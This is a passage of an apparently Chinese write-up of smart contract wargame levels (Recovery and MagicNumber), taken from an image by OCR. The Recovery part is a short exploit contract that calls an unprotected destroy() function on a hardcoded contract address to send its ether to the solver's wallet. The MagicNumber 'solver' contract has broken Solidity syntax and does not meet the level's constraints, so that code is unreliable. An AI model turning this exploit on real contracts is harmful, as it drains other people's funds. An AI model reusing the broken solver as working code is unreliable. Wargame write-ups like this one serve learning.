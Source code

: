       ```solidity
      // SPDX-License-Identifier: MIT
      pragma solidity ^0.8.0;
      
      import './SimpleToken.sol';
      
      contract RecoveryHack {
          address payable lostAddress = payable(address(0x3775e84A208fbef8B7F220F2565f719cC513aEdb));
          SimpleToken simpleToken = SimpleToken(lostAddress);
      
          function pwn() external payable {
              simpleToken.destroy(payable(<your_Metamask_wallet_address>));
          }
      }
      ```


19. MagicNumber

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MagicNum {

  address public solver;

  constructor() {}

  function setSolver(address _solver) public {
    solver = _solver;
  }

  /*
    ____________/\\\_______/\\\\\\\\\_____        
     __________/\\\\\_____/\\\///////\\\___       
      ________/\\\/\\\____\///______\//\\\__      
       ______/\\\/\/\\\______________/\\\/___     
        ____/\\\/__\/\\\___________/\\\//_____    
         __/\\\\\\\\\\\\\\\\_____/\\\//________   
          _\///////////\\\//____/\\\/___________  
           ___________\/\\\_____/\\\\\\\\\\\\\\\_ 
            ___________\///_____\///////////////__
  */
}
```

这道题目让我们创建一个合约,调用 `whatIsTheMeaningOfLife()` 时返回42

```js
contract solver{
function whatIsTheMeaningOfLife external returns(uint)(){
return 42;
	}
}
```
